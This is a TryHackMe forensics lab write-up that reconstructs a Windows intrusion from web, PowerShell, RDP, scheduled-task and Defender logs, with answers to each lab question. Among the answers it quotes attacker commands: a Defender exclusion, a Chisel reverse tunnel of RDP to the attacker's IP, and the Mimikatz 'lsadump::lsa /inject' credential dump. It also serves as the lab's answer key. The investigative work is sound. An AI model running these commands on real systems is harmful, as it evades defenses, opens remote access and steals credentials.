# Logless Hunt

> **Platform:** TryHackMe  
> **Category:** Digital Forensics & Incident Response

# Introduction
This write-up documents the investigation of a Windows compromise using web access logs, PowerShell logs, RDP session logs, Task Scheduler logs and Windows Defender logs.

# Scenario
An attacker exploited a vulnerable web application, uploaded a web shell, executed PowerShell commands, established persistence through a scheduled task, tunneled RDP, and dumped credentials using Mimikatz.

---

# Task 2 – Scenario

Common Event IDs:

| Event ID | Description |
|----------|-------------|
| 1102 | Security audit log was cleared |
| 4624 | Successful logon |
| 4625 | Failed logon |
| 4672 | Special privileges assigned to new logon |
| 4688 | Process creation |

---

## Question 1

### What is the earliest Event ID you see in the Security logs?

**Answer:** `1102`




# Task 3 – Initial Access | Web Access Logs

## Notes
- Apache logs: `C:\Apache24\logs`
- Used to identify scanning, exploitation and uploaded web shells.

### Q1. What is the title of the HR01-SRV web app hosted on port 80?
**Answer:** `Salary Raise Approver v0.1`




### Q2. Which IP performed an extensive web scan on the HR01-SRV web app?
**Answer:** `10.10.23.190`




### Q3.What is the absolute path to the file that the suspicious IP uploaded?
**Answer:** `C:\Apache24\htdocs\uploads\search.php`




### Q4.Clearly, that's suspicious! What would you call the uploaded malware / backdoor?
**Answer:** `Web Shell`

**Learning Outcomes**
- Investigated Apache logs
- Detected reconnaissance
- Identified web shell upload

---

# Task 4 – From Web to RDP | PowerShell Logs

## Notes
- Console History
- Event ID 600
- Script Block Logging (4104)

### Q1. What was the first command entered by the attacker?
`whoami`




### Q2. What is the full URL of the file that the attacker attempted to download?
`http://10.10.23.190:8080/httpd-proxy.exe`




### Q3. What command was run to exclude the file from Windows Defender?
```powershell
Add-MpPreference -ExclusionPath C:\Apache24
```

### Q4. Which remote access service was tunnelled using the uploaded binary?
`RDP`




**Learning Outcomes**
- PowerShell forensics
- Payload download analysis
- Defender bypass detection

---

# Task 5 – Breached Admin | RDP Session Logs

## Notes
Important Event IDs:
- 21 Connect
- 24 Disconnect
- 25 Reconnect

### Q1. What is the timestamp of the first suspicious RDP login?
`2025-01-23 17:00:12`




### Q2. What user did the attacker breach?
`HR01-SRV\Administrator`


### Q3. What IP is shown as the source of the RDP login?
`10.10.23.190`


### Q4. What is the timestamp when the attacker disconnected from RDP?
`2025-01-23 17:16:46`




---

# Task 6 – Persistence | Scheduled Tasks

## Notes
Event IDs:
-100 Start
-106 Register
-129 Process Start

### Q1. What is the name of the suspicious scheduled task?
`Apache Proxy`




### Q2. When was the suspicious scheduled task created?
`2025-01-23 17:05:37`


### Q3. What is the task's "Trigger" value as shown in Task Scheduler GUI?
`At system startup`




### Q4. What is the full command line of the malicious task?
`C:\Apache24\bin\httpd-proxy.exe client 10.10.23.190:10443 R:3389:127.0.0.1:3389`




---

# Task 7 – Credential Access | Windows Defender

## Notes
Important IDs:
-1116 Detection
-1117 Quarantine
-5007 Configuration Change

### Q1. What is the threat family ("Name") of the first quarantined file? 
`VirTool:Win64/Chisel.G`




### Q2. And what is the threat family of the next detected malware?
`HackTool:Win32/Mimikatz!pz`




### Q3. What is the file name of the downloaded Mimikatz executable?
`mimi.exe`


### Q4. Finally, which Mimikatz command was used to extract hashes from LSASS memory?
`lsadump::lsa /inject`




# Attack Timeline

|Stage|Activity|
|---|---|
|Initial Access|Web scan and Web Shell upload|
|Execution|PowerShell|
|Defense Evasion|Windows Defender exclusion|
|Persistence|Scheduled Task|
|Remote Access|RDP Tunnel|
|Credential Access|Mimikatz|

# Key Skills
- Apache Log Analysis
- PowerShell Forensics
- RDP Investigation
- Scheduled Task Analysis
- Windows Defender Analysis

# MITRE ATT&CK Mapping

|Tactic|Technique|ID|
|---|---|---|
|Initial Access|Exploit Public-Facing Application|T1190|
|Persistence|Web Shell|T1505.003|
|Execution|PowerShell|T1059.001|
|Defense Evasion|Impair Defenses|T1562.001|
|Persistence|Scheduled Task|T1053.005|
|Lateral Movement|Remote Desktop Protocol|T1021.001|
|Credential Access|OS Credential Dumping|T1003|

# Conclusion
The investigation reconstructed the full attack chain from initial web exploitation to credential dumping by correlating multiple Windows forensic artifacts.
